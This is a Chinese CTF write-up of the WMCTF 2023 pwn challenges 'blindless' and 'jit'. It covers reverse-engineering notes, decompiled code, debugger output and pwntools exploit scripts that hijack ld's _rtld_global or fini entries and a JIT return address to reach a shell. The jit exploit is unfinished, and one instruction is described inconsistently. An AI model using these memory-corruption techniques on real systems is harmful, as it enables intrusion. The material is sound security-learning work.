



~~考古一下 2023 WMCTF，当时我连 CTF 是什么都不知道~~ 
# blindless
[https://akaieurus.github.io/2023/08/23/house-of-blindness/](https://akaieurus.github.io/2023/08/23/house-of-blindness/)
保护全开

## IDA 结构体命名
在这里命名结构体时发现一个问题：原本是 char [5]，如果把它拆成一个 char 和一个 char 数组，它们仍然相邻。

但如果是一个 char 和一个四字节数据类型，它们就不会紧挨在一起 

## 逆向分析

```c
int __cdecl executeBrainfuck(char *code)
{
  struct instruction c; // [rsp+13h] [rbp-5h]

  HIBYTE(c.current_op_ptr) = 0;
  *(_DWORD *)&c.op = (unsigned __int8)*code;
  while ( c.current_op_ptr <= 255 )
  {
    if ( c.op == 'q' )
      return 0;
    if ( c.op <= 'q' )
    {
      if ( c.op == '@' )
      {
        data_ptr += *(unsigned int *)&code[c.current_op_ptr + 1];
        c.current_op_ptr += 5;
      }
      else if ( c.op <= '@' )
      {
        if ( c.op == '>' )
        {
          ++data_ptr;
          ++c.current_op_ptr;
        }
        else if ( c.op <= '>' )
        {
          if ( c.op == '+' )
          {
            data_ptr += 8;
            ++c.current_op_ptr;
          }
          else if ( c.op == '.' )
          {
            *data_ptr = code[c.current_op_ptr + 1];
            c.current_op_ptr += 2;
          }
        }
      }
    }
    c.op = code[c.current_op_ptr];
  }
  return 0;
}
```

这是一个简化的 Brainfuck 解释器实现。Brainfuck 是一种极简编程语言，只有 8 条指令。函数 `executeBrainfuck` 接收一个包含 Brainfuck 代码的字符串，代码说明如下：

1. 函数使用结构体 `instruction` 跟踪当前指令及其参数。

2. 主循环遍历输入代码字符串，每次处理一条指令。

3. 支持的指令包括：
   - 'q'：退出程序
   - '@'：按指定偏移移动数据指针
   - '>'：将数据指针向右移动一个单元
   - '+'：将当前数据单元的值增加 8
   - '.'：将下一个字符的 ASCII 值写入当前数据单元

4. 每条指令执行后，指令指针 `c.arg` 相应移动。

5. 循环持续执行，直到遇到 'q' 指令或 `c.arg` 超过 255。

## 漏洞
- data_ptr 可以向下越界（理论上应该也可以向上越界，但需要先触发整数溢出；它是八字节，每次最多增加一个 `unsigned int`，而代码长度有限，远远达不到整数溢出的程度）。

这样就能通过 data_ptr 实现向堆上任意高地址写入：`*data_ptr = code[c.current_op_ptr + 1];`

由于没有读取功能，且题目给出了后门，可以将某个函数指针改为后门地址。

随后发现，使用该 libc 时，libc 基址和 ld 基址之间的相对偏移固定……换成 libc 2.35 试了一下却不行，不知道为什么。

既然相对偏移固定，就将 datasize 控制为 0x200000，使其被分配到 libc 地址之前的固定偏移处，再将 data_ptr 改到 ld，进而修改 ld 内部的数据。

### 方法一
直接修改 _rtld_global 中的 `_dl_rtld_lock_recursive ` 或 `_dl_rtld_unlock_recursive `，将低三字节改为 onegadget，然后爆破。
[https://www.cnblogs.com/JmpCliff/articles/17647402.html](https://www.cnblogs.com/JmpCliff/articles/17647402.html)

### 方法二
劫持 fini：修改 `l->l_info[DT_FINI] (0xa8 relative to link_map)`，使对应偏移信息加上 PIE 基址等于后门地址，同时不修改 PIE 基址信息。
由于 l->l_info[DT_FINI] 是 PIE 地址，可以将其改为存放后续偏移（后门偏移）的位置减 8；由于偏移超过 12 位，还需要爆破 4 位。

```bash
main            0x559bf8bf6084 0x1209

 [13]     0x559bf8bf3558->0x559bf8bf3565 at 0x00001558: .fini ALLOC LOAD READONLY CODE HAS_CONTENTS
 
pwndbg> p/x 0x559bf8bf6084 -0x559bf8bf3558
$3 = 0x2b2c
```

## exp

```python
from pwn import *

p=process("./main")


p.sendlineafter(b"Pls input the data size",str(0x100000)) 
p.sendlineafter(b"Pls input the code size",str(0x100))


gdb.attach(p)
pause()
def address_write_code(offset,content):
    code=b"\x40"+p32(offset)
    code=code+b"\x2e"+content
    return code


while True:
    p=process("./main")
    payload=address_write_code(0x324228,b"\x7c")
    payload=payload+address_write_code(0x1,b"\x20")
    payload=payload+b"q"
    p.sendlineafter(b"Pls input your code",payload) 
    data = p.recvuntil('}', timeout=1)
    print(data)
    p.close()

```

# jit
[jit-pwn_](https://lst-oss.github.io/2023/08/23/jit-pwn/#2023-wmctf-jit)
[WM CTF 2023 pwn](https://www.cnblogs.com/JmpCliff/articles/17647402.html)
[2023 西湖论剑初赛 pwn-jit](https://roderickchan.github.io/zh-cn/2023-02-02-2023%E8%A5%BF%E6%B9%96%E8%AE%BA%E5%89%91%E5%88%9D%E8%B5%9Bpwn-jit/)
[WMCTF 2023 题解](https://blog.xmcve.com/2023/08/22/WMCTF-2023-Writeup/#title-16)
[PWN｜西湖论剑·2022中国杭州网络安全技能大赛初赛官方Write Up](https://mp.weixin.qq.com/s/1dBr_4y2RVf_hZyXIpcqyw)
[非官方 eBPF 规范](https://github.com/iovisor/bpf-docs/blob/master/eBPF.md)
保护全开


## strtol(v9, &endptr, 16) 
- 将 v9 指向的字符串按十六进制（基数为 16）解析，并转换为 long 类型的值。
转换结束位置的表示方式：
- &endptr 是指向 char 指针的指针。strtol 会更新 endptr，使其指向 v9 中第一个无效数字字符。
例如，若 v9 是 "1A3Fxyz"，转换结束后 *endptr 将指向 'x'，因为 'x' 不是有效的十六进制字符。

##  __errno_location 和 __throw_out_of_range


```cpp
v8 = __errno_location();
……
v10 = v8;
……
if ( *v10 == 0x22 || (unsigned __int64)(convert_bytes + 0x80000000LL) > 0xFFFFFFFF )
    std::__throw_out_of_range("stoi");
```

### 详细说明：

1. **`v8 = __errno_location();`**：
   - `__errno_location()` 函数返回线程局部存储（TLS）中 `errno` 变量的指针。
   - `errno` 是用于表示上一次函数调用错误状态的全局变量。不同线程拥有各自独立的 `errno`；`__errno_location()` 可以在多线程环境中安全地获取当前线程的 `errno` 地址。


2. **`if ( *v10 == 0x22 || (unsigned __int64)(convert_bytes + 0x80000000LL) > 0xFFFFFFFF )`**：
   - 这一行包含一个 `if` 条件判断，有两个条件：
     1. **`*v10 == 0x22`**：
        - `*v10` 通过对指针 `v10` 解引用，取得 `errno` 的值。
        - `0x22` 是十六进制写法，等于十进制的 `34`。通常 `34` 表示 `ERANGE` 错误，即数值超出范围。
     2. **`(unsigned __int64)(convert_bytes + 0x80000000LL) > 0xFFFFFFFF`**：
        - `convert_bytes` 是一个变量，这里假设它是整数。
        - `0x80000000LL` 是十六进制常量，表示 `2147483648`（`long long` 类型）。
        - 将 `0x80000000LL` 加到 `convert_bytes` 上后，把结果转换为无符号 `__int64` 类型。
        - 判断结果是否大于 `0xFFFFFFFF`，即 `4294967295`，也就是 `unsigned int` 类型的最大值。
  
3. **`std::__throw_out_of_range("stoi");`**：
   - 如果上面任意一个 `if` 条件成立，就调用 `std::__throw_out_of_range("stoi");`。
   - `std::__throw_out_of_range` 是 C++ 标准库函数，用于抛出 `std::out_of_range` 异常，表示数值超出允许范围。
   - `"stoi"` 是异常信息，表示错误发生在字符串转整数（`stoi`）的过程中。

## __errno_location 相关操作


### 详细分析

1. **保存原来的 `errno` 值**：
   ```cpp
   v8 = __errno_location();
   ```
   `__errno_location()` 返回指向 `errno` 的指针，并赋给 `v8`。此时，`v8` 是指向当前线程 `errno` 变量的指针。

2. **准备保存原来的 `errno` 值**：
   ```cpp
   v10 = v8;
   ```
   将 `v8` 的值赋给 `v10`，使 `v10` 也指向 `errno`。

3. **保存 `errno` 值的低 32 位**：
   ```cpp
   LODWORD(v8) = *v8;
   ```
   `LODWORD` 通常是用于取得 `long` 或 `long long` 低 32 位的宏或内联函数。这里将 `*v8`，也就是 `errno` 的当前值，赋给 `v8` 的低 32 位。

4. **重置 `errno`**：
   ```cpp
   *v10 = 0;
   ```
   将 `errno` 设置为 `0`，以便在调用 `strtol` 时检测新错误。

5. **保存原来的 `errno` 值**：
   ```cpp
   v17 = (int)v8;
   ```
   将 `v8`（原来 `errno` 的低 32 位）转换为 `int` 并赋给 `v17`。此时，`v17` 保存的是原来的 `errno` 值，也就是调用 `strtol` 之前的值。

### 为什么要执行上面的代码？

- **检测和处理 `strtol` 错误**：
  将 `errno` 设置为 `0`，就可以在调用 `strtol` 后判断是否发生了新错误。如果 `strtol` 执行出错，`errno` 会被设置为相应的错误码。

- **恢复 `errno` 的原值**：
  检查 `strtol` 的结果并处理可能的错误后，如果没有发生新错误，就恢复 `errno` 原来的值，以免丢失 `errno` 在调用 `strtol` 之前的状态。

### 示例代码说明

这段代码通过以下步骤完成 `strtol` 调用及其错误处理：

1. 保存当前线程的 `errno` 值。
2. 将 `errno` 设置为 `0`，以便检测 `strtol` 产生的新错误。
3. 调用 `strtol`，将字符串转换为长整数。
4. 检查 `strtol` 的结果：
   - 如果没有任何字符能被转换，就抛出 `std::__throw_invalid_argument` 异常。
   - 如果转换结果超出范围，或发生了 `ERANGE` 错误，就抛出 `std::__throw_out_of_range` 异常。
5. 恢复原来的 `errno` 值（如果没有发生新错误）。

通过这些步骤，代码能够在调用 `strtol` 后正确检测和处理错误，同时保留 `errno` 在调用 `strtol` 之前的状态。


## _acrt_iob_func

```c
v18 = _acrt_iob_func(1u);
```

1. `_acrt_iob_func(1u)` 是一个返回标准 I/O 流指针的函数调用。`1u` 是无符号整数，表示标准输出流 `stdout`。`_acrt_iob_func` 是 Microsoft C 运行库（CRT）的内部函数，用于取得标准 I/O 流（如 `stdin`、`stdout` 和 `stderr`）的指针。

   - `_acrt_iob_func(0u)` 返回 `stdin`（标准输入）。
   - `_acrt_iob_func(1u)` 返回 `stdout`（标准输出）。
   - `_acrt_iob_func(2u)` 返回 `stderr`（标准错误）。

   因此，`v18` 此时指向 `stdout`。

```c
setvbuf(v18, 0i64, 4, 0i64);
```

2. `setvbuf` 是标准 C 库函数，用于设置流的缓冲模式。

   - `v18` 是流指针，这里指向 `stdout`。
   - `0i64` 是缓冲区指针；`0i64` 表示未指定缓冲区，使用系统默认缓冲区。
   - `4` 是缓冲模式，这里表示 `_IONBF`，即无缓冲模式。
   - `0i64` 是缓冲区大小；在无缓冲模式下，此参数会被忽略。


##  `SetProcessMitigationPolicy`
`SetProcessMitigationPolicy` 是用于设置进程安全缓解策略的 Windows API 函数。这些策略可以减少某些类型的攻击面，如缓冲区溢出、堆损坏等。开发者可以通过这些策略增强进程安全性。

### 函数原型

```cpp
BOOL SetProcessMitigationPolicy(
  PROCESS_MITIGATION_POLICY MitigationPolicy,
  PVOID                     lpBuffer,
  SIZE_T                    dwLength
);
```

### 参数说明

1. **`MitigationPolicy`**（`PROCESS_MITIGATION_POLICY`）：
   - 这是一个枚举类型，用于指定要设置的缓解策略类型。不同策略对应不同枚举值。
   - 在这段代码中，`13i64` 可能是代表某种缓解策略的硬编码值。通常，使用枚举类型表示这个值会更清晰。例如，`13` 可能对应 `ProcessHeapTerminationOnCorruption`，但需要对照具体的 Windows SDK 文档确认。

2. **`lpBuffer`**（`PVOID`）：
   - 这是指向缓冲区的指针，缓冲区包含要应用的策略设置。缓冲区的内容和大小取决于 `MitigationPolicy` 参数指定的策略类型。
   - 在这段代码中，`&v24` 是指向变量 `v24` 的指针。`v24` 的值为 `1`，表示启用某个策略。

3. **`dwLength`**（`SIZE_T`）：
   - 这是缓冲区的大小，通常为 `lpBuffer` 所指数据结构的大小。
   - 在这段代码中，此参数没有显式出现，可能是因为函数调用经过简化，或者某些策略的缓冲区大小是固定的。

### 返回值

- 函数成功时，返回值为 `TRUE`。
- 函数失败时，返回值为 `FALSE`。可以使用 `GetLastError` 函数取得更多错误信息。

### 具体策略说明

假设 `13i64` 对应 `ProcessHeapTerminationOnCorruption`（需要确认），那么该策略的作用如下：

- **`ProcessHeapTerminationOnCorruption`**：
  - 检测到堆损坏时，立即终止进程。这是一种防止攻击者利用堆损坏漏洞的缓解措施。
  - 设置此策略后，开发者可以确保发生堆损坏时进程不再继续运行，从而降低潜在安全风险。

### 在代码中的具体含义

```cpp
v24 = 1;
SetProcessMitigationPolicy(13i64, &v24);
```

- `v24 = 1;`：将变量 `v24` 设为 `1`，表示启用某个缓解策略。
- `SetProcessMitigationPolicy(13i64, &v24);`：调用 `SetProcessMitigationPolicy` 函数设置进程缓解策略。`13i64` 表示策略类型，`&v24` 指向策略值。


##  eBPF 虚拟机的工作原理

eBPF 虚拟机的完整流程：

1. 编写 eBPF 程序
2. 编译为 eBPF 字节码
3. 将字节码加载到内核
4. 验证字节码
5. JIT 编译
6. 执行


示例：一个统计 TCP SYN 数据包数量的简单 eBPF 程序

1. 编写 eBPF 程序（C 语言）：

```c
#include <linux/bpf.h>
#include <linux/if_ether.h>
#include <linux/ip.h>
#include <linux/tcp.h>

SEC("socket")
int count_tcp_syn(struct __sk_buff *skb) {
    void *data = (void *)(long)skb->data;
    void *data_end = (void *)(long)skb->data_end;
    
    struct ethhdr *eth = data;
    if ((void *)eth + sizeof(*eth) > data_end)
        return 0;
    
    struct iphdr *ip = (void *)eth + sizeof(*eth);
    if ((void *)ip + sizeof(*ip) > data_end)
        return 0;
    
    if (ip->protocol != IPPROTO_TCP)
        return 0;
    
    struct tcphdr *tcp = (void *)ip + sizeof(*ip);
    if ((void *)tcp + sizeof(*tcp) > data_end)
        return 0;
    
    if (tcp->syn) {
        // 增加计数器
        // 这里简化了，实际应该使用 BPF_MAP 来存储计数
        __sync_fetch_and_add(&syn_count, 1);
    }
    
    return 0;
}
```

2. 编译为 eBPF 字节码：

使用 LLVM 编译器将 C 代码编译为 eBPF 字节码：

```
clang -O2 -target bpf -c syn_counter.c -o syn_counter.o
```

3. 将字节码加载到内核：

使用 bpf() 系统调用或更高层的库（如 libbpf）将字节码加载到内核。

4. 验证字节码：

内核中的 eBPF 验证器会检查字节码，确保：
- 不存在无限循环
- 内存访问安全
- 不访问未初始化的栈内存
- 程序能正常终止

5. JIT 编译：

验证通过后，eBPF JIT 编译器会将字节码转换为本地机器码。例如，在 x86_64 架构上，可能生成如下机器码：

```
0:   55                      push   rbp
1:   48 89 e5                mov    rbp,rsp
4:   48 83 ec 08             sub    rsp,0x8
8:   48 8b 77 10             mov    rsi,QWORD PTR [rdi+0x10]
c:   48 8b 47 18             mov    rax,QWORD PTR [rdi+0x18]
...
```

6. 执行：

网络数据包到达时，内核调用这段编译后的机器码，快速检查每个 TCP 数据包。如果是 SYN 数据包，就将计数器加一。


## 漏洞

[非官方 eBPF 规范](https://github.com/iovisor/bpf-docs/blob/master/eBPF.md)
题目提示这是一个 eBPF JIT。

~~逆了半天毫无头绪，想死的心都有了~~ 

本质上仍是一个虚拟机，只是输入的是它的指令字节码，最终会被转换为 x86 机器码。

本着逆向越难、漏洞越好找的原则，直接测试哪些指令能用，再寻找已有的缺陷。

下面是已有的 case，不过前面预先减了 4，所以要加上 4 才能对应到各个 opcode。
```python
0, 1, 3, 8, 0xB, 0x10, 0x11, 0x12, 0x13, 0x14, 0x18, 0x19, 0x1A, 0x1B, 0x20, 0x21, 0x22, 0x28, 0x29, 0x2A, 0x2B, 0x30, 0x31, 0x32, 0x33, 0x38, 0x39, 0x3A, 0x3B, 0x40, 0x41, 0x42, 0x43, 0x48, 0x49, 0x4A, 0x4B, 0x50, 0x51, 0x52, 0x53, 0x58, 0x59, 0x5A, 0x5B, 0x5D, 0x5E, 0x5F, 0x60, 0x61, 0x62, 0x63, 0x65, 0x66, 0x67, 0x68, 0x69, 0x6A, 0x6B, 0x6D, 0x6E, 0x6F, 0x70, 0x71, 0x72, 0x73, 0x75, 0x76, 0x77, 0x78, 0x79, 0x7A, 0x7B, 0x80, 0x81, 0x83, 0x91, 0xA0, 0xA1, 0xA2, 0xA3, 0xA8, 0xA9, 0xAA, 0xAB, 0xB0, 0xB1, 0xB2, 0xB3, 0xB8, 0xB9, 0xBA, 0xBB, 0xC0, 0xC1, 0xC2, 0xC3, 0xC8, 0xC9, 0xCA, 0xCB, 0xD0, 0xD1, 0xD2
```

从加载到 vm 结构体时的检查，可以得知不同 opcode 所对应的源寄存器和目标寄存器范围。但源码比较混乱，我就逐个尝试，看看它们分别对应哪些寄存器。

```c
 if ( src > 0xAu )
          goto LABEL_47;
        if ( des > 9u )
          goto LABEL_26;
```
然后在转换后的机器码执行起始地址处下断点。前后部分都是固定的，只有 `add    eax,0x11111111` 是我输入的机器码。

```bash
pwndbg> x/20i  0x76bd98df5000
   0x76bd98df5000:	push   rbp
   0x76bd98df5001:	push   rbx
   0x76bd98df5002:	push   r13
   0x76bd98df5004:	push   r14
   0x76bd98df5006:	push   r15
   0x76bd98df5008:	mov    rbp,rsp
   0x76bd98df500b:	sub    rsp,0x200
   
   0x76bd98df5012:	add    eax,0x11111111
   
   0x76bd98df5018:	add    rsp,0x200
   0x76bd98df501f:	pop    r15
   0x76bd98df5021:	pop    r14
   0x76bd98df5023:	pop    r13
   0x76bd98df5025:	pop    rbx
   0x76bd98df5026:	pop    rbp
   0x76bd98df5027:	ret    


```
对于受 ` if ( src > 0xAu )
          goto LABEL_47;
        if ( des > 9u )
          goto LABEL_26;` 控制的指令，发现只能控制 10 个目标寄存器和 11 个源寄存器。

```bash
   0x735187874012:	add    eax,0x11111111
   0x735187874018:	add    edi,0x11111111
   0x73518787401e:	add    esi,0x11111111
   0x735187874024:	add    edx,0x11111111
   0x73518787402a:	add    r9d,0x11111111
   0x735187874031:	add    r8d,0x11111111
   0x735187874038:	add    ebx,0x11111111
   0x73518787403e:	add    r13d,0x11111111
   0x735187874045:	add    r14d,0x11111111
   0x73518787404c:	add    r15d,0x11111111
   
   0x735187874053:	add    eax,eax
   0x735187874055:	add    eax,edi
   0x735187874057:	add    eax,esi
   0x735187874059:	add    eax,edx
   0x73518787405b:	add    eax,r9d
   0x73518787405e:	add    eax,r8d
   0x735187874061:	add    eax,ebx
   0x735187874063:	add    eax,r13d
   0x735187874066:	add    eax,r14d
   0x735187874069:	add    eax,r15d
   0x73518787406c:	add    eax,ebp

```
对于 `case 0x18u:`

```bash
case 0x18u:
        if ( (src & 0xF) != 0 )
        {
          *cerr_buffer_ptr = printf((__int64)"invalid source register for LDDW at PC %d", index);
          return 0xFFFFFFFFLL;
        }
         if ( src > 0xAu )
        {
          ++index;
LABEL_47:
          *cerr_buffer_ptr = printf((__int64)"invalid source register at PC %d", index);
          return 0xFFFFFFFFLL;
        }
        if ( des <= 9u )
        {
```
还有下面这种情况，目标寄存器范围额外包含 10，也就是 rbp。

```bash
 	  case 0x62u:
      case 0x63u:
      case 0x6Au:
      case 0x6Bu:
      case 0x72u:
      case 0x73u:
      case 0x7Au:
      case 0x7Bu:
        if ( src > 0xAu )
          goto LABEL_47;
        if ( des > 9u && (program_bytes_ptr[index_1].low_des_high_src & 0xF) != 10 )
          goto LABEL_26;
```

而修改内存的指令如下，可以写入相对于 rbp 的偏移处的内容，因此可以通过 rbp 修改返回地址。

```bash
0x62	stw [dst+off], imm	*(uint32_t *) (dst + off) = imm
0x6a	sth [dst+off], imm	*(uint16_t *) (dst + off) = imm
0x72	stb [dst+off], imm	*(uint8_t *) (dst + off) = imm
0x7a	stdw [dst+off], imm	*(uint64_t *) (dst + off) = imm
0x63	stxw [dst+off], src	*(uint32_t *) (dst + off) = src
0x6b	stxh [dst+off], src	*(uint16_t *) (dst + off) = src
0x73	stxb [dst+off], src	*(uint8_t *) (dst + off) = src
0x7b	stxdw [dst+off], src	*(uint64_t *) (dst + off) = src
```
发现 rax 中存放着如下地址：
```bash
pwndbg> vmmap 0x7faaa5d7a000
LEGEND: STACK | HEAP | CODE | DATA | WX | RODATA
             Start                End Perm     Size Offset File
    0x7faaa5d6f000     0x7faaa5d7a000 r--p     b000  2c000 /usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2
►   0x7faaa5d7a000     0x7faaa5d7b000 r-xp     1000      0 [anon_7faaa5d7a] +0x0
    0x7faaa5d7b000     0x7faaa5d7d000 r--p     2000  37000 /usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2

```

~~最开始想直接将 onegadget 赋给返回地址，但没有 libc 地址残留，只能对以 libc 地址形式存在的返回地址进行局部修改~~ 后来发现，在 20.04 中相对偏移固定，所以只需将当前 shellcode 的返回地址改为 onegadget，并提前设置好寄存器。

```bash
22:0110│+0f0 0x7fffcd753148 —▸ 0x7f7943fbe083 (__libc_start_main+243) ◂— mov edi, eax

```
## exp
Dockerfile 使用 Ubuntu 20.04；libc 和 ld 的相对地址固定，shellcode 位于 ld 内部，且相对于 ld 的地址固定，因此可以得到 libc 地址。

```python
from pwn import *
context.clear(arch='amd64', os='linux', log_level='debug')

sh=process("./jit")
gdb.attach(sh)

def instrut(opcode,dst,src,offset,imm):
    instruction = opcode
    instruction = instruction | dst << 8
    instruction = instruction | src << 12
    instruction = instruction | offset << 16
    instruction = instruction | imm << 32
    return binascii.hexlify(p64(instruction)).decode()  # 返回十六进制字符串

# msb                                                        lsb
# +------------------------+----------------+----+----+--------+
# |immediate               |offset          |src |dst |opcode  |
# +------------------------+----------------+----+----+--------+

payload=""

# for i in  range(10):
#     payload=payload+instrut(4,i,0,0,0x11111111)   
# 0x04	add32 dst, imm	dst += imm

# for i in range(11):
#     payload=payload+instrut(0x0c,0,i,0,0x11111111)
# 0x0c	add32 dst, src	dst += src


# 0xebc88 execve("/bin/sh", rsi, rdx)
# constraints:
#   address rbp-0x78 is writable
#   [rsi] == NULL || rsi == NULL || rsi is a valid argv
#   [rdx] == NULL || rdx == NULL || rdx is a valid envp


# 0x04	add32 dst, imm	dst += imm    add eax, 

# 0x17	sub rsi, imm	dst -= imm
# 0x17	sub rdx, imm	dst -= imm
# 0x63	stxw [dst+off], src	*(uint32_t *) (dst + off) = src

payload=payload=payload+instrut(0x17,0,0,0,0x583000) 
payload=payload=payload+instrut(0x17,0,0,0,0x583000) 
sh.sendlineafter(b'Program: ',payload )

sh.sendlineafter(b'Memory: ', "12345678")  # memory nouse
sh.interactive()


```

